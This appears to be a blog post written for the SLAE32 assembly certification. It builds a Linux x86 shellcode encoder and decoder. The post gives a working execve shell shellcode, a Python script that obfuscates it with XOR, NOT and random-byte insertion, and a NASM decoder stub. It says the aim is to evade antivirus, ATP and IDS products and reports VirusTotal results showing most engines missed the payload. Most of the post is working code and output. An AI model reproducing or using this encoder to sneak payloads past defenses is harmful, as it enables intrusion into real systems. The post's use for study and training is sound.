 ```yaml
---
layout: single
title: Shellcode Encoder for Linux x86
date: 2019-10-05
classes: wide
header:
  teaser: /assets/images/SLAE32/shellcoding32.png
tags:
  - Assembly
  - Pentester Academy
  - SLAE32
  - Encoder
  - Shellcode
  - Certifications
--- 
```

![](/assets/images/SLAE32/shellcoding32.png)

## Introduction
Well, let we make a recap of what we have done since now, we have build a [bind shell](https://bolonobolo.github.io/SLAE32-1/), a [reverse shell](https://bolonobolo.github.io/SLAE32-2/) and a [egghunter shellcode](https://bolonobolo.github.io/SLAE32-3/). A lots of nice stuff for hackers out there who want to test their skills, but it's a useless effort if we want to test this nice things in a real scenario where we can meet Antivirus, ATP or IDS systems. Fortunately, some techniques comes in our help.
In the SLAE course we have study some of this techniques and we appreciated them so much that we decided to use them all together adding a pinch of chaos.<br>
We started using the classic ```execve-stack``` shellcode
```hex
\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```
## Implementation
As said the idea is to use the techniques studied to inject chars inside the execve-stack shellcode. The explanation of the techniques is not in the purposes of this post.
If you want to deeply learn how shellcode encoders works you can search for insertion, XOR and NOT encoders. That said let's explain what we would implement here. 
Given that:
- the hexadecimal alphabet have the corrispective decimal range from 1 to 255 values
- the XOR with fixed char results can be avoided xoring the encoded char with the fixed char (A XOR B ) XOR B = A
- the NOT operation results can be avoided repeating the NOT operation on the encoded char<br>

Implementation of our encoder works like that:
1. Read each char of the shellcode
2. if the decimal value of the char is less of 128, XOR it with the 0xDD char
3. put a placeholder after the XOR encoded char
4. else NOT the char
5. put a different placeholder after the NOT encoded char
6. put a random char choosed in a range from 1 to 169
7. put the 0xaa char at the end indicates that our shellcode is finished
7. print the encoded shellcode

We wrote a python script to do that

## Encoder
```python
#!/usr/bin/python

# Python Encoder (XOR + NOT + Random)
import random
green = lambda text: '\033[0;32m' + text + '\033[0m'

shellcode = ("\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")
encoded = ""

# The end char is 0xaa
end = "\\xaa"

print 'Encoded shellcode ...'

for x in bytearray(shellcode) :

        if x < 128:
                # XOR Encoding with 0xDD
                x = x^0xDD
                # placeholder for XOR is 0xbb
                encoded += '\\xbb'
                encoded += '\\x'
                encoded += '%02x' % x
        else:
                # NOT Encoding
                x = ~x
                # placeholder for NOT is 0xcc
                encoded += '\\xcc'
                encoded += '\\x'
                encoded += '%02x' % (x & 0xff)
        # 0xaa is 170 in decimal and the others placeholders are > of 170 we don't want random chars like our placeholders
        encoded += '\\x%02x' % random.randint(1,169) 

print green("Shellcode Len: %d" % len(bytearray(shellcode)))
print green("Encoded Shellcode Len: %d" % len(bytearray(encoded)))
encoded = encoded + end
print encoded
nasm = str(encoded).replace("\\x", ",0x")
nasm = nasm[1:]
# end string char is 0xaa
print green("NASM version:")
# end = end.replace("\\x", ",0x")
print nasm
```
running the script we obtain an obfuscated shellcode, much larger that than the original, but hey a small but full visible shellcode has no future.

```bash
root@slae32-lab:# ./encoder_mixer.py 
Encoded shellcode ...
Shellcode Len: 25
Encoded Shellcode Len: 300
\xbb\xec\x73\xcc\x3f\x9d\xbb\x8d\x51\xbb\xb5\x1b\xbb\xb3\x22\xbb\xf2\x79\xbb\xae\x8e\xbb\xb5\x61\xbb\xb5\x3d\xbb\xf2\x6e\xbb\xf2\x9f\xbb\xbf\x10\xbb\xb4\x89\xcc\x76\x2d\xcc\x1c\x2f\xbb\x8d\x91\xcc\x76\x7e\xcc\x1d\x92\xbb\x8e\x80\xcc\x76\x7b\xcc\x1e\xa7\xcc\x4f\x7f\xbb\xd6\x2b\xcc\x32\x24\xcc\x7f\x37\0xaa
NASM version:
0xbb,0xec,0x73,0xcc,0x3f,0x9d,0xbb,0x8d,0x51,0xbb,0xb5,0x1b,0xbb,0xb3,0x22,0xbb,0xf2,0x79,0xbb,0xae,0x8e,0xbb,0xb5,0x61,0xbb,0xb5,0x3d,0xbb,0xf2,0x6e,0xbb,0xf2,0x9f,0xbb,0xbf,0x10,0xbb,0xb4,0x89,0xcc,0x76,0x2d,0xcc,0x1c,0x2f,0xbb,0x8d,0x91,0xcc,0x76,0x7e,0xcc,0x1d,0x92,0xbb,0x8e,0x80,0xcc,0x76,0x7b,0xcc,0x1e,0xa7,0xcc,0x4f,0x7f,0xbb,0xd6,0x2b,0xcc,0x32,0x24,0xcc,0x7f,0x37,0xaa
``` 
![](/assets/images/SLAE32/assignment_4/encoded_0.png)<br>

Well, now that we have the encoded shell we have to wrote an assembly decoder, the idea is very simple, the sequence of the chars in shellcode is:<br>
```|placeholder|obfuscated shellcode char|random char|``` <br>
So we need basically 3 functions:
1. a decoder for the XOR encoded char
2. a decoder for the NOT encoded char
3. a switch that read the placeholder and call the right decoder
When we reach the end (char 0xaa) our shellcode is encoded, loaded in EDI and ready to be called

## Decoder
Let's move to the assembly code
```nasm
global _start

section .text
_start:


        jmp short call_decoder


decoder:
        ; the sequence of the chars in shellcode is: placeholder,obfuscated shellcode char,random char
        pop esi
        lea edi, [esi]                  ; load the first placeholder char in edi
        xor eax, eax
        xor ebx, ebx

switch:

        mov bl, byte [esi + eax]        ; load the placeholder in EBX
        cmp bl, 0xaa                    ; compare it with the shellcode end character
        jz shellcode                    ; if whe reached the end jump to the shellcode
        cmp bl, 0xbb                    ; if the placeholder is 0xbb Zero Flag is set
        jz xordecode                    ; if ZF is set jump to XOR decoder
        jmp notdecode                   ; otherwise jump to NOT decoder

xordecode:

        mov bl, byte [esi + eax + 1]    ; load the second char (the good one) from where we are
        mov byte [edi], bl              ; load it in edi
        xor byte [edi], 0xDD            ; xoring char with 0xdd to obtain the original one
        inc edi                         ; increment edi
        add al, 3                       ; move to the next placeholder char
        jmp short switch                ; loop to decode

notdecode:

        mov bl, byte [esi + eax + 1]    ; load the second char (the good one) from we are
        mov byte [edi], bl              ; load it in edi
        not byte [edi]                  ; denot char
        inc edi                         ; increment edi
        add al, 3                       ; move to the next placeholder char
        jmp short switch                ; loop to decode

call_decoder:

        call decoder
        shellcode: db 0xbb,0xec,0x73,0xcc,0x3f,0x9d,0xbb,0x8d,0x51,0xbb,0xb5,0x1b,0xbb,0xb3,0x22,0xbb,0xf2,0x79,0xbb,0xae,0x8e,0xbb,0xb5,0x61,0xbb,0xb5,0x3d,0xbb,0xf2,0x6e,0xbb,0xf2,0x9f,0xbb,0xbf,0x10,0xbb,0xb4,0x89,0xcc,0x76,0x2d,0xcc,0x1c,0x2f,0xbb,0x8d,0x91,0xcc,0x76,0x7e,0xcc,0x1d,0x92,0xbb,0x8e,0x80,0xcc,0x76,0x7b,0xcc,0x1e,0xa7,0xcc,0x4f,0x7f,0xbb,0xd6,0x2b,0xcc,0x32,0x24,0xcc,0x7f,0x37,0xaa
```
Now we can try it
![](/assets/images/SLAE32/assignment_4/encoder_1.gif)<br>
It works!
Let see what Virustotal thinks about our shellcode 
![](/assets/images/SLAE32/assignment_4/encoded_1.png)<br>
Well 11 AV detected our shellcode, not perfect but we can deceive ATP like FireEye and AV like BitDefender, F-Secure, Sophos and ClamAV. 
![](/assets/images/SLAE32/assignment_4/encoded_2.png)<br>
This is a prove our shellcode isn't encoded at best and the encoder itself can be improved but I think this is a good starting point.<br>
You can find this shellcode published on [Exploit-DB](https://www.exploit-db.com/shellcodes/47461)<br>

### Update
Removing the word "Shellcode" from the script improve sensibly our power of obfuscation in Virustotal. In fact using this code to compile and execute the shellcode change positively our results on scan.<br>
![](/assets/images/SLAE32/assignment_4/encoded_3.png)<br>
![](/assets/images/SLAE32/assignment_4/encoded_4.png)<br>
As you can see only McAfee mark it as malicious.<br>
![](/assets/images/SLAE32/assignment_4/encoded_5.png)<br>
This is not an endpoint. To be sure our shellcode is really obfuscated we need to test it on machines running IDS/ATP agents and/or AV. This is the best way to test our obfuscated shellcode, but is out of this post scope. I really appreciate if someone would test it in one or more of the cited environments, please fell free to contact me in this case. Thank you.<br>
<br>
All the codes used in this post are available in my dedicated [github repo](https://github.com/bolonobolo/SLAE32_code).<br>
<br>
This blog post has been created for completing the requirements <br>
of the SecurityTube Linux Assembly Expert certification: [SLAE32 Course](http://securitytube-­training.com/online­‐courses/securitytube­‐linux­‐assembly­‐expert/)<br>
Student ID: SLAE-1476


